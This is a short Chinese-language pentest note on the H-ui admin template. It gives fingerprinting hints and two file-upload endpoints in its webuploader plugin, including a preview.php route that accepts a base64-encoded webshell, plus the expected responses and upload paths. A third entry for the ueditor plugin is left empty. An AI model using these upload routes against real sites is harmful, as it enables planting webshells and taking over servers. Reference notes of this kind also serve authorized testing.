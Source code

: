 # H-ui

---

特征：后台登陆界面：蓝色灯塔

该模板使用了webuploader插件

文件上传1

```
上传点：/lib/webuploader/0.1.5/server/fileupload.php
成功回显：{"jsonrpc" : "2.0", "result" : null, "id" : "id"}
上传路径：/lib/webuploader/0.1.5/server/upload/文件名没改变
```

文件上传2

```
上传点：/lib/webuploader/0.1.5/server/preview.php
---
pathdata:
data:image/php;base64,base64加密的webshell
---
成功回显：
{"jsonrpc" : "2.0", "result" : 上传路径, "id" : "id"}
```

该模板使用了ueditor插件

文件上传3

```

```

